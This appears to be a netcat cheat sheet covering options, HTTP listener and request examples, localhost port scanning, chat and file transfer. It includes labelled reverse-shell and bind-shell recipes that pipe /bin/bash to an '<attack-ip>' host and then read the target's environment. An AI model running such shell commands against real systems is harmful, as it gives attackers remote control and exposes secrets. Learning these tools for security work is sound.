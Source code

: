 # nc(1)

netcat is a utility for reading from and writing to network connections using TCP or UDP

## Options

    -x                # hexdump incoming and outgoing traffic
    -l                # listen mode, for inbound connects
    -z                # zero-I/O mode (used for scanning)
    -p                # local port number
    -n                # skip DNS lookups
    -4                # use IPv4 only
    -6                # use IPv6
    -u                # use UDP instead of TCP

## Examples

    nc -l -p 80                                                             # listen on port 80 and print request: `curl localhost`
    nc -lvp 80
    printf 'HTTP/1.1 200 OK' | nc -l -c -p 80                               # listen on port 80, print request and return HTTP response: `open localhost`
    printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -lcp 80
    printf 'GET / HTTP/1.0\n\n' | nc localhost 80                           # do HTTP request to localhost. same as `curl localhost`

## Netcat Port Scan

    nc -v -z localhost 1-1023                        # scan localhost for open lower ports (0-1024)
    nc -v -z -n 127.0.0.1 1-1023                     # scan 127.0.0.1 for open lower ports (0-1024)

## Netcat Reverse Shell

    attack > nc -lp 4444
    target > nc \<attack-ip> 4444 -e /bin/bash
    attack > env                                     # print env of "target"

## Netcat Bind Shell

    target > nc -lp 4444 -e /bin/bash
    attack > nc \<target-ip> 4444
    attack > env                                     # print env of "target"

## Netcat Chat Shell

    chat-1 > nc -lp 4444
    chat-2 > nc \<chat-1-ip> 4444

## Netcat File Transfer

    target > nc -lp 4444 > file.txt
    source > nc \<target-ip> 4444 < file.txt          # finish with `CTRL-C`
